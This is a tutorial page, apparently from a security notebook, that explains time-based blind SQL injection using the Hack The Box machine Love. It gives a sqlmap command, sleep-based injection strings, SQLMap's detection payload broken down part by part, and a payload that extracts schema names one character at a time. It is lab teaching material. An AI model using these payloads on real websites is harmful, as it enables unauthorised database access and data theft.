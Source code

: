 ```yaml
---
description: >-
  Looking into a Time-based blind vulnerability using SQLMap and looking at the
  payload.
cover: ../.gitbook/assets/growtika-ZfVyuV8l7WU-unsplash (2).jpg
coverY: 0
---
```


# Time-based blind SQL injection

An example of the vulnerability can found in https://app.hackthebox.com/machines/Love. Using SQLMap the vulnerability can easily found. This vulnerability was not the intended path for the box Love.

```bash
sqlmap -u http://10.10.10.239/index.php --batch --forms 
```

<figure><img src="../.gitbook/assets/image (104).png" alt=""><figcaption><p>use --technique=T flag for time based only.</p></figcaption></figure>

### What is a Time-Based blind injection.

First of all a SQL injection is a code injection technique used to exploit vulnerabilities in a websites database which in this case is MySQL. This can happen when there is no proper sanitization on the user input.&#x20;

#### A SQL query

```sql
select * from logins where username like '%$searchInput'
```

If there is no sanitization we can add a single quote which will end the user input and after this we can write more SQL code.&#x20;

#### For example, retrieving databases.

```sql
select * from logins where username like '%1'; show databases;'
```

### Blind injection

Blind injections are injections without receiving meaningful error messages or data output being returned. We have to use SQL logic to retrieve the output character by character.&#x20;

### Time Based

A Time-based blind SQL Injection involves sending SQL queries that cause the SQL server to wait for a specified amount of time before responding. This delay for example 5 seconds indicates the query has been executed.&#x20;

<pre class="language-sql"><code class="lang-sql"># Sleeps only if condition is true
<strong>test' or pg_sleep(5)--
</strong><strong>' or sleep(5)#
</strong>') or sleep(5)='
</code></pre>

### The payload

Because time-based injections retrieving data char by char doing it manually would be a tedious and time consuming task. This is the actual payload SQLMap is using to detect the vulnerability.

```sql
test' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
```

### Lets break this down

The sinqle ( ' ) it terminate the string and allows to inject a command

```sql
test'
```

`AND` clause is used in SQL to combine conditions,&#x20;

```sql
AND
```

The subquery&#x20;

```sql
(SELECT(SLEEP(5)))
```

* `SLEEP(5)` causes a 5 second delay
* `SELECT` statement executes SLEEP() which results in a 5 second delay

The outer query

```sql
SELECT * FROM (SELECT(SLEEP(5)))bAKL
```

* `SELECT *` will select all columns
* `FROM (SELECT(SLEEP(5)))` This nested structure ensures the SLEEP() function will execute
* bAKL is as an alias which is needed when using a subquery.&#x20;

Closing the payload

```sql
AND 'vRxe'='vRxe'
```

* Is always TRUE like 1 =1
* Closes any quotes and ensures valid SQL syntax
* Bypass security measures

{% hint style="info" %}
Based on this payload SQLMap will retrieve the database char by char. `test' AND (SELECT 9684 FROM (SELECT(SLEEP(1-(IF(ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),2,1))>120,0,1)))))SpGB) AND 'vRxe'='vRxe`
{% endhint %}

